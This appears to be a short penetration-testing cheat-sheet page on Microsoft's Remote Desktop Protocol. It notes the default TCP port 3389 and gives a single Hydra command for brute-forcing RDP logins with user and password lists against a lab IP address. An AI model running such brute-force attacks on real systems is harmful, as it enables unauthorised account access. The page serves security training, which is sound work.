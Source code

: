 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# RDP

Microsoft's **Remote Desktop Protocol** (**RDP**) is a network protocol that allows remote access to Windows systems via **TCP port 3389** by default.

## Hydra

Use Hydra to perform RDP bruteforcing.

```shell
clue@machine[/]$ hydra -L user.list -P password.list rdp://10.129.42.197
```
